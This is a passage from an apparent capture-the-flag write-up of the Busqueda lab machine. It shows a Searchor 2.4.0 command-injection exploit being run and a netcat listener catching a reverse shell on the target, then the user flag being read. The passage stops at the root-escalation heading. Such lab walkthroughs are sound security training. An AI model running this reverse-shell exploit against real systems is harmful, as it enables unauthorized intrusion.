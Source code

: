 <figure><img src="Images/Busqueda/cmd_inject_POC_step2.png" alt=""><figcaption></figcaption></figure>

### Exploit Searchor

We will need two terminals to make this work using nikn0laty's [exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/blob/main/exploit.sh). One will be a `netcat` listener listening on 9001 (can be any port you will just need to change that in the exploit.sh script) and then the second terminal to run the exploit. After it is ran we should have a shell on the server via our listener.

#### Terminal 1 - Run Exploit

```console
toasty@parrot$ ./exploit.sh http://searcher.htb 10.10.14.231
---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---
[*] Input target is http://searcher.htb
[*] Input attacker is 10.10.14.231:9001
[*] Run the Reverse Shell... Press Ctrl+C after successful connection
```

#### Terminal 2 - Listener

```console
toasty@parrot$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.208] 50554
bash: cannot set terminal process group (1667): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ id
id
uid=1000(svc) gid=1000(svc) groups=1000(svc)

```

### User.txt

Now that we are in the system we can move around and we find our user flag in our home directory (svc account):

```console
bash-5.1$ ls /home/svc
ls /home/svc
user.txt
bash-5.1$ cat /home/svc/user.txt
cat /home/svc/user.txt
54e94***************************
```

## Root Flag

Now that we have our user flag we can look for how to escalate our privs to root.
